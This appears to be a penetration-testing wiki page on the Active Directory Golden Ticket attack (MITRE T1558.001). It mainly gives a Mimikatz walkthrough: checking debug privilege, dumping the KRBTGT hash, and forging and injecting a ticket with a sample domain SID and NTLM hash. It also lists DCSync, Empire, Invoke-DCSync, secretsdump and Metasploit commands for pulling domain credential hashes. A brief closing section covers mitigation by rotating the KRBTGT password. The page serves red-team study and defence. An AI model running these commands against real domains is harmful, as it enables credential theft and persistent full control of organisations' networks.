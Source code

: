 ```yaml
---
description: https://attack.mitre.org/techniques/T1558/001/
---
```


# Golden Ticket

**ATT\&CK ID:** [T1558.001](https://attack.mitre.org/techniques/T1558/001/)

**Permissions Required:** <mark style="color:green;">**User**</mark>

**Description**

A Golden ticket attack is a post compromise Active Directory attack where a compromised account such as a Domain Administrator or an account with DCSync rights, can dump the KRBTGT account hash and create a golden ticket that effectively, gives the attacker persistence and the ability to access any resource on the domain.

Every time the attacker wants to access a resource they can forge a ticket for that resource in which they can use for access.

## **Techniques**

### Mimikatz (Scenario)

The scenario for the attack is we are an attacker who has compromised the Domain Administrator account and is currently running a session under this account. We are on a fully patched Windows Server 2019 system. We have transferred Mimikatz over to the DC and have started up a shell.

Firstly, lets check our privileges on Mimikatz.

```
Privilege::debug
```

![](<../../../../.gitbook/assets/image (1973).png>)

We should be good to proceed with the return value of '20'. The debug privilege allows local Administrators to attach debuggers to programs. Mimikatz uses this for processes such as LSASS. If the account did not have this access, Mimikatz would be more limited in what it is able to achieve.

We now need to pull relevant information from the KRBTGT account for us to construct the Golden Ticket attack.

```
lsadump::lsa /inject /name:krbtgt
```

From the output of this command we need the following information:

* Domain SID
* KRBTGT NTLM hash

| Domain SID                                | NTLM Hash                        |
| ----------------------------------------- | -------------------------------- |
| S-1-5-21-2356823372-3609795904-2142328116 | ab20acb811769e025aba7d4fef487b96 |

After obtaining this information, we need to put it all together:

```
kerberos::golden /User:Administrator /domain:vuln.local /sid:S-1-5-21-2356823372-3609795904-2142328116 /krbtgt:ab20acb811769e025aba7d4fef487b96 /id:500 /ptt
```

Where:

* /User: Can be any user. The account does not need to exists for this.
* /Domain: is the domain name
* /SID: is the Domain SID
* /Krbtgt: is the NTLM hash of the KRBTGT account.
* id: is the RID of the administrator account which is 500 by default.
* ptt: informs Mimitkaz to pass the ticket over to our next session.

We can confirm if this has worked by checking the last line of the out for:

_'Golden ticket for 'Administrator @ vuln.local 'successfully submitted for current session'_.

![](<../../../../.gitbook/assets/image (1974).png>)

We can then create a separate command shell, using the Golden Ticket, with the following command:

```
misc::cmd
```

With the newly created command shell, we can run the command `dir` on a workstation on the network:

![](<../../../../.gitbook/assets/image (1975).png>)

### Empire

```bash
# PowerShell
powershell/credentials/mimikatz/golden_ticket
```

## Methods of KRBTGT hash retrieval

#### DCSync

```bash
# Mimikatz
lsadump::dcsync /domain:security.local /all
lsadump::dcsync /domain:security.local /user:krbtgt
lsadump::lsa /patch
```

#### Empire

```bash
usemodule credentials/mimikatz/dcsync_hashdump
```

#### Invoke-DCSync

**Resource:** [https://gist.github.com/monoxgas/9d238accd969550136db](https://gist.github.com/monoxgas/9d238accd969550136db)

```bash
Invoke-DCSync
Invoke-DCSync -PWDumpFormat
```

#### NTDS.DIT

```bash
# Impact Secrets.py
secretsdump.py <Domain>/<Username>:<Password>@<Domain-Controller>
```

#### Metasploit

```bash
use auxiliary/admin/smb/psexec_ntdsgrab
use windows/gather/credentials/domain_hashdump
```

## Mitigation

For containing the impact of a previously generated golden ticket, reset the built-in KRBTGT account password twice, which will invalidate any existing golden tickets that have been created with the KRBTGT hash and other Kerberos tickets derived from it. For each domain, change the KRBTGT account password once, force replication, and then change the password a second time. Consider rotating the KRBTGT account password every 180 days. [\[source\]](https://www.stigviewer.com/stig/windows\_server\_2016/2019-12-12/finding/V-91779)

##
